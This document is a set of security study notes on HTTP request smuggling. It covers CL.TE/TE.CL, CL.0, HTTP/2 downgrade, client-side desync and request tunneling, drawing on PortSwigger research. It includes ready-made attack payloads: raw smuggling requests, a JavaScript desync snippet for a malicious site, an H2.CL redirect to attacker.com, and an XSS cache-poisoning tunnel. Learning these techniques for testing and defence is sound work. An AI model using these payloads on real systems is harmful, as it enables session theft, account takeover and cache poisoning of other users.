

# HTTP Request Smuggling

## Response Queue Poisening
When you smuggle an extra full request, it can cause the server's response queue to get poisened. This is exploitable if the connection between the front-end and back-end is used for more than a few requests, and the attack does not cause the connection to shut down. When the queue is poisened, every request will receive the response from the previous request. This allows an attacker to receive perhaps sensitive responses from other users that allow for full account takeover. Also it makes the website kinda unusable for other users since they get weird responses not corresponing to their request.

## Harmless -> Exploitable
### On-Site Redirect -> Open Redirect
Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash. This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. Example [PoC](#h2cl--on-site-redirect)

# HTTP/1.1
### CL.TE & TE.CL
Requests first go through a load balancer/reverse proxy/front end, and then get sent to a back end server. If there are inconsistencies between the calculation of the length of the requests, it allows for HTTP request smuggling.


Most HTTP request smuggling vulnerabilities arise because the HTTP/1 specification provides two different ways to specify where a request ends: the `Content-Length` header and the `Transfer-Encoding` header. Sometimes, front-end and back-end prioritize or don't support one or the other. This can cause the vulnerability.

With `Transfer-Encoding: chunked`, each chunk of data looks like this:
```
| size (Bytes in hex) | newline | data |
```
The message is terminated with a chunk of size zero, so something like this `0\r\n\r\n`.

> HTTP/2 is kinda immune to ambigious request length

### CL.0 & H2.0
Sometimes, endpoint that don't expect to receive `POST` requests will just ignore the `Content-Length` header. This allows to smuggle request by simply sending the start of a new request in the main request body. Look at [this PoC](#cl0--simple).

The same thing might happen with HTTP/2 downgrading. The back-end might ignore the content-length header. We call this H2.0 💦 vulnerability.

### Desync & Pause-Based
These vulnerabilities can work without malicious requests that browsers can send. This opens an attack vector in a way that attackers can set up a malicious website that poisens the client sided connection of the victim. Then it sets the location to the vulnerable website to activate the attack. Is called desync attack. [PoC](#client-side--desync)

Sometimes when you pause in the middle of the request, the front-end and back-end might react to this differently. This can essentially cause something like CL.0. It depends on these conditions:
- The frond-end server must immediately forward each byte of the request to the back-end rather than waiting until it has received the full request.
- The frond-end server must not (or can be encouraged not to) time out requests before the back-end server.
- The back-end server must leave the connection open for reuse following a read timeout.

Use Burp Turbo Intruder for this, because you can easily pause attacks, and continue. Take a look [here](../burp/turbo_intruder.md#pause-based-desync-attack) for an in depth explanation on how to use Turbo Intruder for this, with a step by step example. Apache 2.4.52 (kinda old) is vulnerable to this type of attack.

## Exploitation

### Front-End Headers
Most likely, the front end will add some extra headers to the request it gets to forward some extra information like ids, encryption method, user ip, etc. to the back-end. But when you smuggle a basic HTTP request, it does not have these headers when it arrives at the back-end. So this might cause it to be handled differently and fail. 

To find out how a back-end request looks like, just smuggle a `POST` request that reflects (or stores) input it gets. Now when you send another normal request, it gets parsed by the front-end, and then used as input in the smuggled request. The smuggled request reflects its input (the parsed normal request), so you can see what headers the front-end adds. This also works with capturing requests from other users and capturing their session cookies and stuff (only if data is stored). [PoC](#get-full-request--clte)

### Combine with XSS
If there is some reflected xss vulnerability, you can combine it with request smuggling. This makes it so that the victim does not have to interact with a sketchy link you send them, and the attacker can control headers that normally cannot be trivially controlled.

### Web Cache
You can use HTTP request smuggling to do web cache poisening or web cache deception. This is so cool like fr. Set up a payload in a way that the front-end server sees it as a static cachable file, and the back-end sees it as a malicious or sensitive file. Now the back-end will send the malicious/sensitive file to the front-end, this server caches the response. So the attacker succesfully poisened/decepted the cache. It might be tedious to have the victim send the right request at the right time to the right front-end server. But when you have a proof of concept, it is easy for an attacker to automate this process using scripting.

## Proof of Concepts
Proof of concepts can differ very much depending on the target server, and the goal of the hack. It requires some creativity and understanding of how things work to forge a nice payload.

### CL.TE | Test
This HTTP request will cause time delay, if vulnerability is present
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

1
a
0


```

### TE.CL | Test
This HTTP request will cause time delay, if vulnerability is present
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

X
```

### Get Full Request | CL.TE
Reflect/store the request and extra headers given by the front-end into the response of the smuggled request.
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 132
Transfer-Encoding: chunked

0

POST /reflect HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

### CL.0 | Simple
The next request sent over the same connection will receive the response of the smuggled request.
```
POST /resources/expectingGET.jpg HTTP/1.1
Host: vulnerable-website.com
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```

### Client-Side | Desync
Put this on the malicious website.
```js
fetch('https://vulnerable-website.com/vulnerable-endpoint', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x', // malicious prefix. Change to request to store victims request(+cookies)
    mode: 'cors', // trigger CORS error to prevent the browser redirect
    credentials: 'include' // poisons the "with-cookies" connection pool
}).catch(() => { // or use ".then" if you use "mode: no-cors"
    fetch('https://vulnerable-website.com/', {// uses the poisoned connection
    mode: 'no-cors', // so the request shows up in the chrome network tab
    credentials: 'include'
    })
})
```

# HTTP/2
Some amazing research on HTTP/2 vulnerabilities [here](https://portswigger.net/research/http2) by James Kettle, definitely recommended to read (~35 minutes). 

Sometimes the server supports HTTP/2, but does not declare this to the client (due to misconfiguration). The client will simply use HTTP/1.1 as a fallback option. You can discover whole new attack surface if you send all kinds of HTTP/2 requests, and see if it is supported.


## HTTP/2 Downgrading Vulnerabilities
Most of the HTTP/2 vulnerabilities happen because of HTTP/2 downgrading to HTTP/1.1 to the back-end. The front-end server converts the received request to a valid HTTP/1.1 request for the back-end. This is widely used, but can cause vulnerabilities if not correctly implemented with the right precautions.

### Prohibited Injection Sequences | Pseudo-Headers
These are prohibited by the HTTP/2 protocol, meaning that the request should be terminated if encountered (not always, sometimes should just sanitize). But sometimes this check is not (well) implemented.
```
foo: bar\r\nTransfer-Encoding: chunked\r\nX:	ignore
```
You can use `\r\n` sequences to split a pseudo-header (like the line above), or to split a whole request. Make sure tho, when doing this, that both requests contain all needed headers. Account for request rewriting done by the server. So if the front-end adds a Host header at the end of all header, you must make sure that you add an extra Host header before splitting the request with `\r\n\r\n`.

Also try the `\r\n` in the special HTTP/2 headers like `:path` or all of those. Sometimes it works :)

### Inconsistencies | Pseudo-Headers
Sending a `Host` header will sometimes result in two host headers in the back-end, since in HTTP/2 you got the `:authority` pseudo-header which effectively replaces the normal host header.

Sending two `:path` pseudo-headers might cause inconsistencies concerning which path is used for access control, and which for routing. This might allow you to access off limit endpoints.

If spaces are allowed in the `:method` pseudo-header, you can inject something like this "GET /admin HTTP/1.1". If the back-end ignores trailing character on this first line, this creates an ambiguous path.

If the server dynamically generates a URL using the `:scheme` pseudo-header, you can try injecting it with "https://attacker.com/?" to reroute to a malicious website.

Make sure that the resulting request for the back-end is still valid. It must contain `<method> + space + <path> + space + HTTP/1.1` before the first `\r\n`. Add the correct values accordingly.

### H2.CL
When the front-end blindly uses the received `Content-Length` header in the converted HTTP/1.1 request. Because this header is not used in HTTP/2. Look at this example [PoC](#h2cl--on-site-redirect) using an on-site redirect as an open redirect.

### H2.TE
Normally a front-end server that supports HTTP/2 should terminate any request that contains the `Transfer-Encoding` header. But when this is not properly done, it allows for an attack to exploit request smuggling.


## Proof of Concepts

### H2.CL | On-Site Redirect
This makes use of the feature that a request to `/resources` gets redirected to `<Host>/resources/` ([on-site redirect](#on-site-redirect)). So the next request that gets sent will receive `attacker.com/resources/` as its response. Can cause arbitrary javascript execution if that next request is for a (trusted) javascript file.
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /resources HTTP/1.1
Host: attacker.com
Content-Length: 10

x=x
```

# Request Tunneling
When the connection between the front- and back-end is not reused for multiple requests, you cannot really do request smuggling. So for when you cannot interfere with other users requests, there is request tunneling! In HTTP/2 every "stream" should only contain a single request and response. If you receive a response with another response in the body, you have succesfully tunneled a request.

Use [sequences like this](#prohibited-injection-sequences--pseudo-headers) to break out of HTTP/2 header names or values. To leak the internal headers, inject a `Content-Length: 99\r\n\r\nfoo=` where foo reflects in the response. 

Some front-end servers will read all data received from the back-end, and so forward also the tunneled response within the body of the main response to the client. Other servers only read the content-length amount, so you don't get any visible response, thus it is **blind request tunneling**. Luckily, sometimes front-end servers try to read content-length amount of bytes even when the request method was `HEAD` (the response contains a content-length header with the size of the response as if it was a normal request). When the server has this misconfiguration, you can simply get the tunneled response (as plain body) by using `HEAD` in the main request.
- If the tunneled response is shorter than the main response, just tunnel another request after it for padding
- If the tunneled response is longer than the main response, create a main request that reflects input. This way you can make the response arbitrarily long

Take a look at this proof of concept


### Another Cool Proof of Concept

This is the payload in the value field of the HTTP/2 `:path` header:
```
/ HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /resources?<script>alert(1)</script> HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
X: X
```
The `HEAD` method is used, and the front-end server just reads the amount of bytes in the content-length header.
- The first part of request is to make the main request valid
- The first tunneled request is malicious, since it redirects to `/resources/?<script>alert(1)</script>` without encoding
- The second tunneled request is for the extra padding, so there are enough bytes for the front-end to read
If the cache doesn't separate between `HEAD` and `GET` methods, any normal request will receive the poisened response saved by the cache.

# Sources
- Main info (Portswigger): https://portswigger.net/web-security/request-smuggling 
- Article on desync (Portswigger): https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn
- Article on HTTP/2 (Portswigger): https://portswigger.net/research/http2
- Article on client-side desync and cool stuff: https://portswigger.net/research/browser-powered-desync-attacks 